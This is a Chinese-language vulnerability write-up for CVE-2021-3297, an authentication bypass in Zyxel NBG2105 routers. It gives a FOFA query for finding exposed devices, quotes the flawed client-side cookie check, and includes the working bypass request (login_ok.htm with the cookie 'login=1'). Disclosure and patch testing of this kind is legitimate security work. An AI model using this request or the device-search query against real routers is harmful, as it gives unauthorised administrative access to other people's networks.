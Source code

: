 # Zyxel-NBG2105-身份验证绕过-CVE-2021-3297

## 漏洞描述

Zyxel NBG2105 存在身份验证绕过，攻击者通过更改 login参数可用实现后台登陆

## 漏洞影响

> [!NOTE]
>
> Zyxel NBG2105

## FOFA

> [!NOTE]
>
> app="ZyXEL-NBG2105"

## 漏洞复现

登录页面如下

![](Zyxel-NBG2105-身份验证绕过-CVE-2021-3297.assets/1627363620117365.jpg)

其中前端文件 **/js/util_gw.js** 存在前端对 Cookie login参数的校验

![](Zyxel-NBG2105-身份验证绕过-CVE-2021-3297.assets/1627363620432368.jpg)

可以看到检测到 Cookie中的 **login=1** 则跳转 home.html

```
function setCookie() //login_ok.htm use
{
	document.cookie="login=1";
	MM_goToURL('parent', 'home.htm');
}
```

请求如下则会以管理员身份跳转到 **home.htm页面**

```
http://xxx.xxx.xxx.xxx/login_ok.htm

Cookie: login=1;
```

![](Zyxel-NBG2105-身份验证绕过-CVE-2021-3297.assets/1627363620736497.jpg)

## 参考文章

https://github.com/nieldk/vulnerabilities/blob/main/zyxel%20nbg2105/Admin%20bypass